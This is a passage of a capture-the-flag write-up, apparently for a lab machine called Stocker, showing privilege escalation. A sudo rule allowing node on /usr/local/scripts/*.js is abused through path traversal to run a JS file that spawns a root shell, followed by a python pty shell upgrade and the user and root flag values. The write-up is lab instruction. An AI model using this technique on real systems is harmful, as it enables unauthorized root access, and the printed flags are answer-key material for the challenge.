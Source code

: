 # Privilege escalation.

As ever We call `sudo -l` to know if there is any command executable as root.

```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$
```

We can execute `node` starting from the path `/usr/local/scripts/*.js`.

This is little tricky and it takes too time to understand it for me too.

The key is in the `*`. It meas exactly EVERYTHING.

Once I understood this behavior the exploit it’s pretty simple:

```bash
angoose@stocker:~$ echo "require(\"child_process\").spawn(\"/bin/sh\", {stdio: [0, 1, 2]})" > /home/angoose/shell.js
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/shell.js 
# whoami
root
#
```

## Stabilize the shell

Now, We can get an interactive shell using python:

```bash
# python3 -c "import pty; pty.spawn('/bin/bash')"    
root@stocker:/home/angoose#
```

### Flags:

`cat /home/angoose/user.txt`: 6aefe1ccdaf55ae457e29547aa295e29

`cat /root/root.txt`: 1eb7cf4187a3af712182c022ac0745bf

---

# Links and tools

---

[directory-list-lowercase-2.3-small.txt](Stocker%208be61598711c4b7bbdfe347f58eba7d8/directory-list-lowercase-2.3-small.txt)

